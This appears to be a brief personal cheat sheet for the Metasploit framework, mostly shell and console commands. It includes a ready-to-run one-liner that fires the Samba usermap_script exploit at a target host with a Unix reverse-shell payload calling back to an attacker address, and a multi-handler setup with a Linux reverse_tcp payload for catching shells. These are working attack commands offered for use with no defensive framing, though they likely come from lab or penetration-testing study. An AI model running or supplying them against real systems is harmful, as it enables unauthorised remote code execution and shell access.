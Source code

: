 # Metasploit

## init database

```bash
msfdb init
```

## create new workspace

```bash
workspace -a [name]
```

## switch to workspace

```bash
workspace [name]
```

## run commands without interactive shell

```bash
msfconsole -x "use exploit/multi/samba/usermap_script;\
set RHOST 172.16.194.172;\
set PAYLOAD cmd/unix/reverse;\
set LHOST 172.16.194.163;\
run"
```

## Multi-handler for reverse shell

```bash
use exploit/multi/handler
set LHOST 192.168.88.128
set LPORT 4444
set ExitOnSession False
```

### netcat/bash reverse

```bash
set PAYLOAD linux/x86/shell/reverse_tcp
```

### run in the background

```bash
run -j
```
